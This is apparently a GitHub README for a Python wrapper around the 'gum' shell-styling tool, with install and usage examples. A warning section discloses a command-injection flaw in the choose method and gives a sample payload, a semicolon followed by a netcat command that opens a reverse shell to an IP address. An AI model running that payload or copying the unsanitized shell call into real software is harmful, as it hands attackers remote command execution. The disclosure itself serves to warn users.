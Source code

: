 # Gum

A simple python3 implementation of a tool called 'gum'.
https://github.com/charmbracelet/gum
gum is a tool for glamorous shell scripts, written in go,
and supposed to be used in shell scripts.
I've created an eassy to use python class that takes advantage
of that tool and let the avrage python user create a cool looking
CLIs.

# Installation
Use the install instractions from https://github.com/charmbracelet/gum and then:
```bash
$ git clone https://github.com/idobarel/gum-python
$ cd gum-python
$ sudo python3 setup.py install
```

# Usage
```python
import gum

print("which basketball team you like the most?")
x = gum.search(["cavs", "magic", "golden state", "boston"])
gum.spin("hold on...")
print(f"No way! I'm there biggest fan!")
```

# Importent!
I found a security issue with this package,
the one who decide what list is going in as opt at the choose method for ex,
getting a RCE.
that's not supposed to be a problem if you dont let the user choose the content of the opt varieble
malicius code example:
```python
import gum

gum.choose([';', "nc 192.168.1.153 4444 -e /bin/bash"])

```
Will spawn a reverse shell to the target.

# Notice 
as it is for now, I have nothing to deal with the authours of the gum tool, I wanted it to be easier to use in big python applications, so I created this code.
Just to clear any missunderstandings, all the credit and the notice should go to @charm or https://github.com/charmbracelet.

Hope yall having a nice day!

